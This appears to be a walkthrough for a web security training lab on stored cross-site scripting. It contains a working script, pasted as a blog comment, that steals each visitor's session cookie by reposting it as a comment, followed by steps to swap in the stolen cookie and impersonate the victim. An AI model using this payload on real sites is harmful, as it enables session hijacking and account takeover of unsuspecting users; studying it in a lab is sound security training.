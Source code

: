 ## Solution steps

- Open any blog post and write a comment to trigger an alert with random name and email.
- Notice that you can trigger an alert easily with this kind of payload: `<script>alert(1)</script>`
- But in this lab we have to steal victim's session cookie, then use this cookie to impersonate the victim.

- This Lab has 2 solutions, one using Burp Collaborator and another without using Burp Collaborator. I will explain the steps without using burp collaborator as I don't have the premium version. But I will paste the another solution at the bottom from their official solution for your and my convenience :)

### Without using Burp Collaborator

- This solution is considered less subtle because this will make the victim to post their session cookie as a comment and every user visiting the page will be able to see it.
- Open Burp suite and set-up proxy (Keep intercept off).
- Post a random comment.
- From Http history, view `POST /post/comment` and notice that the request contains your session cookie and a `csrf` parameter.
- Copy the following payload and paste it as comment with random name and email:
  ```html
  <script>
  window.addEventListener('DOMContentLoaded', function(){

  var token = document.getElementsByName('csrf')[0].value;
  var data = new FormData();

  data.append('csrf', token);
  data.append('postId', 5);
  data.append('comment', document.cookie);
  data.append('name', 'chris');
  data.append('email', 'chris@01.com');
  data.append('website', 'http://www.chris.com');

  fetch('/post/comment', {
	  method: 'POST',
	  mode: 'no-cors',
	  body: data
  });
  });
  </script>
- Note: Change the `postId` parameter according to the post where you're commenting.
- Go back to the post and view that the session cookie and a secret is posted.
- Copy the session cookie, inspect the page using Ctrl+shift+c and go to application tab.
- Go to cookies and change the session cookie's value with the victim's cookie and hit Enter.
  
